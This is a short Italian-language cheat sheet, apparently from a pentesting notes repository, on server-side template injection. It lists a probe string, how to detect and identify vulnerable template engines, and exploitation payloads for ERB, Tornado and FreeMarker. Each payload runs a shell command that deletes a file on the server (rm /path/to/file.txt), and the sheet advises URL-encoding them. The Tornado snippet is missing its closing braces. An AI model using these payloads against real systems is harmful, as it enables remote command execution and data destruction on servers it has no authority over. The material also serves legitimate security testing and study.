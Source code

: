 # Caratteri di verifica:
```
${{<%[%'"}}%\
```

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato;
* Trovare qualche informazione nel codice sorgente.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```
